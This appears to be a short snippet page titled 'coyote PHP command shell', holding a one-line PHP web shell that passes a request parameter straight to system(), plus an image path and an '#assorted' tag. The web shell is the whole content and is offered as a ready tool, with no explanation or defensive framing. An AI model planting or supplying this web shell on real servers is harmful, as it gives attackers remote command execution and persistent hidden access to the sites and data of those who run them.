 # coyote PHP command shell
```php
<?php system($_REQUEST[0]); ?>
```


# Related

Tags:
    #assorted
